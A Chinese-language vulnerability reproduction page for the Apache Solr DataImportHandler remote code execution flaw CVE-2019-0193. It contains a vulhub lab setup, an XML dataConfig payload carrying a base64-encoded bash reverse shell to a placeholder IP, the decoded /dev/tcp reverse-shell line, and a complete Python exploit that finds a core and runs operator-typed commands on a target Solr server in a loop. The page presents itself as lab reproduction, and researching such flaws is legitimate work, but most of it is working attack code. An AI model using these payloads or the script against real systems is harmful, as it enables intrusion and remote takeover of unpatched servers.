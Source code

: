 # Apache Solr 远程执行漏洞 CVE-2019-0193

# Apache Solr 远程执行漏洞 CVE-2019-0193

## 漏洞描述

2019 年 08 月 01 日，Apache Solr 官方发布预警，Apache Solr DataImport 功能 在开启 Debug 模式时，可以接收来自请求的”dataConfig”参数，这个参数的功能与`data-config.xml` 一样，不过是在开启 Debug 模式时方便通过此参数进行调试，并且 Debug 模式的开启是通过参数传入的。在 `dataConfig` 参数中可以包含 script 恶意脚本导致远程代码执行。

## 漏洞影响

```
Apache Solr < 8.2.0
```

## 环境搭建

```shell
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-0193
docker-compose build
docker-compose up -d

# 创建一个solr核心test
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

![image-20220209115752919](/images/202202091157982.png)

## 漏洞复现

点击刚刚创建的test进入调试

![image-20220209115805307](/images/202202091158371.png)将下面的POC代码填入 Debug-Mode 中

```xml
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

注意 POC 执行的代码中的base64字符串的位置请置换成自己的ip地址并base64加密填入

```python
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
直接如上写入反弹无反应，不稳定，需要base64加密写才能反弹一个shell
```

点击EXecute执行代码

![image-20220209115830350](/images/202202091158409.png)

![image-20220209115843491](/images/202202091158536.png)

成功反弹shell

## 漏洞POC

```python
POC不支持反弹shell，如需反弹shell，请按如上步骤反弹shell
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Solr < 8.2.0            \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2019-0193.py       \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983  \033[0m')
    print('+  \033[36mCmd    >>> whoami(命令执行)              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name):
    mode_url = target_url + "/solr/" + core_name + "/admin/mbeans?cat=QUERY&wt=json"
    response = requests.request("GET", url=mode_url, timeout=20)
    mode = dict(dict(list(json.loads(response.text)["solr-mbeans"])[1])['/dataimport'])['class']
    if "org.apache.solr.handler.dataimport.DataImportHandler" in mode:
        print("\033[32m[o] 目标Url,Dataimport模块开启\033[0m")
    else:
        print("\033[31m[x] 目标Url,Dataimport模块未开启\033[0m")
        sys.exit(0)

def POC_3(target_url, core_name, cmd):
    vuln_url = target_url + "/solr/" + core_name + "/dataimport"

    headers = {
        'Host': target_url,
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        'Accept': "application/json, text/plain, */*",
        'Accept-Language': "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        'Accept-Encoding': "zip, deflate",
        'Referer': "" + target_url + "/solr/",
        'Content-type': "application/x-www-form-urlencoded",
        'X-Requested-With': "XMLHttpRequest",
        'Content-Length': "1007",
        'Connection': "close"
    }

    payload = """
        command=full-import&verbose=false&clean=false&commit=false&debug=true&core=test&name=dataimport&dataConfig=
        <dataConfig>
          <dataSource type="URLDataSource"/>
          <script><![CDATA[
                  function poc(row){
         var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("%s").getInputStream()));
        var result = [];
        while(true) {
        var oneline = bufReader.readLine();
        result.push( oneline );
        if(!oneline) break;
        }
        row.put("title",result.join("\\n\\r"));
        return row;
        }
          ]]></script>
                <document>
                     <entity name="entity1"
                             url="https://raw.githubusercontent.com/1135/solr_exploit/master/URLDataSource/demo.xml"
                             processor="XPathEntityProcessor"
                             forEach="/RDF/item"
                             transformer="script:poc">
                                <field column="title" xpath="/RDF/item/title" />
                     </entity>
                </document>
        </dataConfig>
        """ % cmd

    response = requests.request("POST", url=vuln_url, data=payload, headers=headers, timeout=30)
    try:
        get_message = list(json.loads(response.text)["documents"])[0]
        message = dict(get_message)['title'][0]
        print("\033[32m[o] 漏洞成功利用,响应为\n \033[0m", message)
    except:
        print("\033[31m[x] 代码执行失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)
    POC_2(target_url, core_name)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            exit(0)
        else:
            POC_3(target_url, core_name, cmd)
```

![image-20220209115910125](/images/202202091159388.png)

## 参考文章

[apache solr远程代码执行漏洞(cve-2019-0193)](https://blog.csdn.net/whatday/article/details/106959989?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-4.channel_param&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-4.channel_param)

